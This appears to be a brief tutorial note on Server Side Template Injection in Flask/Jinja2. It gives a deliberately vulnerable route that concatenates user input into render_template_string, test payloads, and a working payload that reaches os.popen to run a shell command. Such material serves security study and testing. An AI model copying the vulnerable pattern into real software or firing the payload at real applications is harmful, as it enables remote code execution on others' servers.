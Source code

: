 ## Server Side Template Injection (SSTI)
 
 ```
from flask import Flask, render_template_string

app = Flask(__name__)


@app.route("/test/<user>")
def index(user=None):
    html = "<body>Hi "+user+"</body>"
    return render_template_string(html)


app.run() 
 ```
 
 
when testing for Server Side Template Injection (SSTI) in a jinja 2 application i usualy try the following payloads :
- {{7*7}} 
> 49
- {{7*'7'}}
> 7777777
 
 
 To fully understand how to exploit this vuln you first need to understand Method Resolution Order (MRO). MRO is the order in which python ooks for a method in a hierarchy of classes and you can use the MRO function to list these classes.
 
 - ` {{config.__class__.__init__.__globals__['os'].popen('whoami').read()}} `
 
 ![This is an image](pic.png)
